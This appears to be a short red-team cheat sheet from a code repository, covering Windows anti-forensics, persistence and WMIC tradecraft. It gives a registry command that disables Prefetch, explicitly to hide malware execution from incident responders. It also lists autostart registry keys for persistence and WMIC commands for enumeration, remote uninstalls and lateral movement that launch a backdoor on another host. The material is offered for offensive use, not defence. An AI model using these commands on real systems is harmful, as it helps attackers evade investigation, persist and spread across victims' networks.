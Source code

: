 # :fu: Anti-Forensics

## Disabling Prefetch:

What are Prefetch Files? Prefetch files are great artifacts for forensic investigators trying to analyze applications that have been run on a system. Windows creates a prefetch file when an application is run from a particular location for the very first time. This is used to help speed up the loading of applications. But if we disable Prefetch files, we can hide execution patterns of our malware to hinder incident response.

The following command requires Administrator privileges, but disables Prefetch within the registry. While this tactic may appear anomalous to network defenders such as clearing Security Event Logs, it will obfuscate the malware's execution history.

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /f /d 0
```

## Windows AutoStart Persistence Locations:

Locations for automatically starting at system boot or user logon

```
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Windows Debug Tools-%LOCALAPPDATA%\
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
software\microsoft\windows\currentversion\run\microsoft windows html help
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\IAStorD
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

## WMIC Tricks and Tips:

Enumeration

```
wmic environment list
wmic useraccount get /ALL /format:csv
wmic process get caption,executablepath,commandline /format:csv
wmic qfe get description,installedOn /format:csv
# PowerShell
Invoke-WmiMethod -Path #{new_class} -Name create -ArgumentList #{process_to_execute}
```

Lateral Movement

```
wmic /node:<IP> /user:administrator process call create "cmd.exe /c <backdoor>"
```

Uninstall Program

```
wmic /node:"#{node}" product where "name like '#{product}%%'" call uninstall
```
